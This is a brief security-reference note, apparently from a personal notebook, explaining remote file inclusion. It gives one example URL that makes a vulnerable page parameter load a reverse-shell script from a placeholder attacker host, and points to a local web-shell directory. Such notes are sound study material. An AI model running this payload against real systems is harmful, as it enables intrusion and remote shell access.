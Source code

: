```yaml
---
title: Remote File Inclusion
updated: 2025-05-12 02:28:10Z
created: 2025-04-18 12:16:16Z
latitude: -33.78668940
longitude: 150.95264980
altitude: 0.0000
---
```


Allows the attacker to insert within a web page of the web server a file present in a remote resource:

`http://target.com/vuln?page=http://x.x.x.x/reverse.py`
`/usr/share/webshells/php`